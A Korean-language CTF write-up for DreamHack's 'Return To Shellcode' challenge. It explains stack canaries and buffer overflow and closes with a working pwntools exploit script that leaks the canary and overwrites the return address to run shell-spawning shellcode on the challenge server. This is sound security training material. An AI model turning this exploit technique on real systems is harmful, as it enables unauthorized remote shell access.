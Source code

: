 ```yaml
---
title:  "[DreamHack] Return To Shellcode 풀이"
categories:
    - Pwnable
tags:
    - dreamhack.io
toc: true
published: true
---
```

[DreamHack] Return To Shellcode 풀이

# Environments

|Name|Config|
|:---:|:---|
|CPU|Intel Core i7 7700|
|Architecture|Intel64|
|OS|Ubuntu 16.04.7 LTS|
|Tools|- Pwntools|

# Problem
![](/assets/DreamHack/r2s-01.png)
```
Print "Address of the buf: 0x7fff41eb3360"
Print "Distance between buf and $rbp: 96"
Print "[1] Leak the canary"
Print "Input: "
Get Input
Print "Your input is " + Input
Print "`"
Print "[2] Overwrite the return address"
Print "Input: "
Get Input
```

- URL: [dreamhack.io/wargame/challenges/352/](https://dreamhack.io/wargame/challenges/352/)
- 요약: `r2s` 및 서버로부터 Canary Leak을 통해 flag 찾기

# File Format
![](/assets/HCTF/r2s-00.png)

> x86-64 ELF LSB Executable, Not Stripped, Not UPX Packed

# checksec

|Name|Status|
|:---:|:---|
|CANARY|ENABLED|
|FORTIFY|disabled|
|NX|disabled|
|PIE|ENABLED|
|RELRO|FULL|

- Can't overwrite GOT, Canary can leakable

# Solution
Canary Mitgation 과 친숙해지고, 이에 대한 전반적인 이해를 위한 간단한 문제 같다.

![](/assets/DreamHack/r2s-02.png)

우선 같이 첨부된 `r2s.c`가 있으므로 정적 분석 전에 한번 살펴 보기로 하였다. 여기서 알 수 있는 것은 BOF (Buffer OverFlow)가 일어난다는 것과 Buffer의 Size, RBP의 위치를 알려준다는 것이다.

![](/assets/DreamHack/r2s-03.png)

`__stack_chk_fail@plt` 를 통해 Canary Mitgation가 걸려 있는 것을 한번 더 알 수 있다.

![](/assets/DreamHack/r2s-04.png)

BOF를 유도할 경우 위와 같이 Canary Mitgation으로 인하여
```
*** stack smashing detected ***
```
위와 같이 출력 되고 Application 이 종료 된다.

![](/assets/DreamHack/r2s-05.png)

Canary는 Application 실행시 `fs` register로부터 Random 한 값을 받아 해당 값을 Canary 값으로 사용한다. 여기에는 `\n` 이 맨 앞에 포함 된 8바이트 값이 들어간다. 

또한 Canary는 메모리에서 Buffer 영역과 Stack Frame Point (SFP) 사이에 위치한다. 따라서 Buffer 를 BOF 할 경우 Canary 값이 덮어 씌어지게 된다. 이럴 경우 RAO나 BOF 사용이 가능하다.

다행히 아주 간단한 연습 문제인 관계로 Buffer 의 위치, SFP와의 거리가 주어진다. 또한 의심스러운 `0x100` 이 `read` Func 위에 인자로 들어간다. BOF 가 무척 간단 할 것 으로 생각 된다.

![](/assets/DreamHack/r2s-06.png)

사실 이미 위에서 `r2s.c`를 통해 확인 하였지만 재차 확인을 하자면 IDA를 통해 Pseudo Code 확인 결과 추측이 맞았다.

# Exploit Scenario
1. 총 두번의 입력의 BOF를 사용
2. 첫번째 입력으로부터 Canary 값 구하기
3. 두번째 입력으로부터 Return Address를 Overwrite

# Exploit Code
```
from pwn import *
context.log_level   = "DEBUG"
context.arch        = "amd64"

p = remote("host1.dreamhack.games", 20695)

p.recvuntil("buf: ")
buffer = int(p.recvline()[:-1], 16)     # Set buffer from given buffer without \n

p.recvuntil("$rbp: ")                   # Receive Cannary located information
distance = int(p.recvline()[:-1])       # Exclude `\n` byte

payload = "A" * (distance - 7)          # Exclude `\n` byte from Canary
p.sendafter("Input: ", payload)

p.recvuntil(payload)                    # Leaked data from canary
ca = u64(b"\x00" + p.recvn(7))

payload = asm(shellcraft.sh())
payload = payload.ljust(distance-8, b'A') + p64(ca) + b'B'*8 + p64(buffer)

p.sendlineafter("Input: ", payload)
p.interactive()
```

# Result
![](/assets/DreamHack/r2s-07.png)
